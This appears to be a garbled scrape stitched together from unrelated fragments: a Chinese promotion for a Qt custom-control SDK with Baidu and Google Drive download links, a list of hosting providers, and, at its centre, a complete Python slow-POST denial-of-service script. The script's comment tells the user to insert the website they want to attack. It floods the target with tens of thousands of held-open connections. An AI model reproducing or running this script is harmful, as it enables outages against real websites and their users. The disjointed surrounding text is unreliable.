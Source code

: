 http://blog.sina.com.cn/liang19890820
qt组件   简书：https://www.jianshu.com/u/1250ab46f9ad
https://www.jianshu.com/c/1b908f2aab44
SDK下载链接：https://pan.baidu.com/s/1A5Gd77kExm8Co5ckT51vvQ 提取码：877p
下载链接中包含了各个版本的动态库文件，所有控件的头文件，使用demo，自定义控件+属性设计器。
自定义控件插件开放动态库dll使用（永久免费），无任何后门和限制，请放心使用。
目前已提供26个版本的dll，其中包括了qt5.12.3 msvc2017 32+64 mingw 32+64 的。
不定期增加控件和完善控件，不定期更新SDK，欢迎各位提出建议，谢谢！
widget版本（QQ：517216493）qml版本（QQ：373955953）三峰驼（QQ：278969898）。
涛哥的知乎专栏 Qt进阶之路 https://zhuanlan.zhihu.com/TaoQt
欢迎关注微信公众号【高效程序员】，C++/Python、学习方法、写作技巧、热门技术、职场发展等内容，干货多多，福利多多！
Qt入门书籍推荐霍亚飞的《Qt Creator快速入门》《Qt5编程入门》，Qt进阶书籍推荐官方的《C++ GUI Qt4编程》。
强烈推荐程序员自我修养和规划系列书《大话程序员》《程序员的成长课》《解忧程序员》

链接：https://pan.baidu.com/s/10LeAj8vcXaTjr8MgKjRC9A 
提取码：78bz 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/1asDezZy9ZfLZ2LIa3RsIaQ 
提取码：liol 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/1OW_T2KUu6zWjE9OCUN8kZg 
提取码：fiee

链接：https://pan.baidu.com/s/1p8NhQBf5sDVU3tfs0naicQ 
提取码：io03

链接：https://pan.baidu.com/s/11JXfoprf391PiavFfnVLJQ 
提取码：89f1 
复制这段内容后打开百度网盘手机App，操作更方便哦

用户名
@StockMarketGossip

https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://edu.csdn.net/course/detail/10750

https://drive.google.com/file/d/1DNRlFUil5O4CEhkUpfnGjXTdr9tOp21r/view?usp=sharing

https://drive.google.com/file/d/1Cnl42jLjVgpyO4PkIFzKWDLwjVy8cVCZ/view?usp=sharing

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054
